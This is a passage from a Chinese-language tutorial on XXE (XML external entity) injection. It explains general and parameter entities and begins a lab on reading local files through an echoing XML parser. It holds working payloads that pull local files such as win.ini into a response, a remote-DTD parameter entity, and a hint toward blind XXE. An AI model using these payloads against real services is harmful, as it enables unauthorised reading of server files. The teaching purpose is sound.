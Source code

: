 **示例代码：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

**抛转：**

参数实体在我们 Blind XXE 中起到了至关重要的作用

## **四、我们能做什么**

上一节疯狂暗示了 **外部实体** ，那他究竟能干什么？

实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？

### **实验一：有回显读本地敏感文件(Normal XXE)**

这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

本地服务器上放上解析 XML 的 php 代码：

**示例代码：**

**xml.php**
